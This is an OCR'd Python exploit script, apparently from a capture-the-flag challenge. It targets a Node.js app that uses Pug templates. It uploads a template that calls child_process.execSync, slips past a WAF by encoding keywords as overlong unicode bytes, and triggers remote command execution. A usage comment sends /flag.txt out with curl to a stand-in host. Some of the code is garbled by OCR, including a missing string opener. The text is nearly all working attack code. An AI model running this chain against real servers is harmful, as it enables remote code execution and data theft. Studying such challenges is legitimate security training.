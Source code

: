 ```python
-----------------------------12837266501973088788260782942
Content-Disposition: form-data; name="file"; filename="5am3_get_flag.pug"
Content-Type: ../template

- global.process.mainModule.require('child_process').execSync('evalcmd')
-----------------------------12837266501973088788260782942--


"""

def getParm(payload):
    payload = payload.replace(" ","%C4%A0")
    payload = payload.replace("\n","%C4%8D%C4%8A")
    payload = payload.replace("\"","%C4%A2")
    payload = payload.replace("'","%C4%A7")
    payload = payload.replace("`","%C5%A0")
    payload = payload.replace("!","%C4%A1")

    payload = payload.replace("+","%2B")
    payload = payload.replace(";","%3B")
    payload = payload.replace("&","%26")

    # Bypass Waf 
    payload = payload.replace("global","%C5%A7%C5%AC%C5%AF%C5%A2%C5%A1%C5%AC")
    payload = payload.replace("process","%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("mainModule","%C5%AD%C5%A1%C5%A9%C5%AE%C5%8D%C5%AF%C5%A4%C5%B5%C5%AC%C5%A5")
    payload = payload.replace("require","%C5%B2%C5%A5%C5%B1%C5%B5%C5%A9%C5%B2%C5%A5")
    payload = payload.replace("root","%C5%B2%C5%AF%C5%AF%C5%B4")
    payload = payload.replace("child_process","%C5%A3%C5%A8%C5%A9%C5%AC%C5%A4%C5%9F%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("exec","%C5%A5%C5%B8%C5%A5%C5%A3")
    
    return payload

def run(url,cmd):
    payloadC =  payloadRaw.replace("evalcmd",cmd)
    urlC = url+"/core?q="+getParm(payloadC)
    requests.get(urlC)
    
    requests.get(url+"/?action=5am3_get_flag").text

if __name__ == '__main__':
    targetUrl = sys.argv[1]
    cmd = sys.argv[2]
    print run(targetUrl,cmd)

# python exp.py http://127.0.0.1:8081 "curl eval.com -X POST -d `cat /flag.txt`"

```





